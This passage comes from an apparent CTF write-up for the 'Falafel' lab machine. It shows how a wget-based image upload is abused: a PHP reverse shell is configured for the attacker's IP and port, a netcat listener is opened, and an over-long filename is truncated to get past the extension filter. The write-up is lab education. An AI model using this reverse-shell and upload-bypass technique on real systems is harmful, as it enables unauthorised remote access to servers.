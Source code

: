 Uploading "http://10.10.14.7:3999/viking.png" i get presented with this output.
```
CMD: cd /var/www/html/uploads/0621-1924_63b0bd5de1c81bcd; wget 'http://10.10.14.7:3999/viking.png'

--2018-06-21 19:24:49--  http://10.10.14.7:3999/viking.png
Connecting to 10.10.14.7:3999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8889 (8.7K) [image/png]
Saving to: 'viking.png'

     0K ........                                              100% 19.1M=0s

2018-06-21 19:24:49 (19.1 MB/s) - 'viking.png' saved [8889/8889]
```
Cool so that is using a tool we should recognize, wget. It also echoes out the folder it saves the image to. A simple browse to ```http://10.10.10.73/uploads/0621-1924_63b0bd5de1c81bcd/viking.png``` should then present us with the image.  
![viking.png--PNG-Image--141---141-pixels----Mozilla-Firefox_065](/img/posts/2018/06/falafel-writeup/viking.png--PNG-Image--141---141-pixels----Mozilla-Firefox_065.png)  
So it gives us both the folder name where it is saved and also we have access to it... Since it is running a php backend, lets try and upload a reverse shell.
```
root@kali:~/Falafel$ cp /usr/share/webshells/php/php-reverse-shell.php ./sb.php
root@kali:~/Falafel$ sed -i -e 's/127.0.0.1/10.10.14.7/g' sb.php
root@kali:~/Falafel$ sed -i -e 's/$port = 1234;/$port = 4000;/g' sb.php
```
Having set the ip and port of my kali box, we should also put up something to catch the shell with netcat.
```
root@kali:~/Falafel$ nc -lvvp 4000
listening on [any] 4000 ...
```
Trying to upload sb.php using a URL, i get the response:
>Something bad happened:
Bad extension
Specify a URL of an image to upload:

Running through OWASP's Guide to bypass filtered uploads[^2], Didn't really give anything either. So again after some googling, i had the idea that since the upload form is using wget to fetch files. Then maybe supplying a filename longer then linux can handle, maybe we can get it to "cut off" the picture file ending.  
Popping over to UnixStackExchange[^3], we get to know that a linux filename can be 255 characters long. So maybe if I find a filename that is long enough, that might cause an overflow, thus removing all characters over the limit.  
So i tested with a 245 character long filename, and the response was:
```
Upload Succsesful!
Output:
CMD: cd /var/www/html/uploads/0621-2200_805b0c016de450a8; wget 'http://10.10.14.7:3999/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'

The name is too long, 245 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[..snip..]
```
So now we can see that supplying a 232 character long filename like
```
root@kali:~/Falafel$ python -c "print 'A'*232 + '.php' + '.jpg'"
```

[^1]: [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)  
[^2]: [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[^3]: [Unix Stack Excange](https://unix.stackexchange.com/questions/32795/what-is-the-maximum-allowed-filename-and-folder-size-with-ecryptfs)  
[^4]: [Ubuntu Wikipedia](https://wiki.ubuntu.com/Security/Privileges)  
[^5]: [iraw2png.pl](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/)